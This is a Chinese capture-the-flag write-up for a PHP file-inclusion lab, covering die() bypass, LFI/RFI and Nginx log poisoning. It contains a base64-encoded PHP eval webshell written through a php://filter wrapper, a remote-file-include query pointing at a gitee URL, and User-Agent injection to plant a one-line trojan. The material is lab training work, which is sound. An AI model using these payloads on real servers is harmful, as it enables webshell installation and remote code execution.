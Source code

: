 ```php
function helloctf($filter){
    $wrapper = "php://filter/read=".$filter."/resource=php://input";
    echo "This is what you got:"."<br>";
    readfile($wrapper);
}
```

### Level 11+ 死亡绕过

```php
function hello_ctf($filename,$data){
    if(preg_match("/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $data)){
        die("WAF!");
    }
    file_put_contents($filename, "<?php die('GAME OVER!') ?>".$data);
}
```

![image-20240806112106652](./assets/image-20240806112106652.png)

对内容填充两个字符后可以使前方无效后方正常解析。

**GET**:`?filename=php://filter/write=convert.base64-decode/resource=shell.php`

**POST**:`data=aaPD9waHAgQGV2YWwoJF9QT1NUWydhdyddKTsgPz4`



### Level 12 LFI&&RFI

**本地文件包含(LFI,Local File Inclusion)** : 打开并包含本地文件的行为,比如我们后面会接触的日志文件包含，session文件包含，FilterChain等等。

本地文件包含是最常见的文件包含漏洞，在前面关卡中几乎所有的演示都是LFI（比如包含phpinfo.txt，backdoor.txt这样的行为）。

try ?wrappers=https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

RFI-  Remote File Inclusion,远程文件包含: 读取并执行远程服务器上文件的行为，相比于LFI，远程服务器上文件的可控性更高，因此危害更高，但代价就是条件苛刻，十分依赖 allow_url_include 参数。 HTTP/HTTPS 协议是最直观的远程文件包含形式，当然一定意义上，使用data协议去生成字符串然后包含也是一种远程文件包含。

### Level 13 LFI_日志文件包含\_Nginx

在wrappers被过滤的情况下，通常使用日志文件包含的方式来绕过，由于文件包含漏洞最大的需求点是文件，所以我们需要得知日志文件的位置，通常情况下为默认位置。

```
+ /var/log/nginx/     - 默认Nginx日志目录
+ + /var/log/nginx/access.log
```

该关卡的Dockerfile对于日志的配置为：VOLUME ["/var/log/nginx"]





访问日志文件，可以成功读取

bp抓包尝试user-agent注入phpinfo成功

写入一句话木马
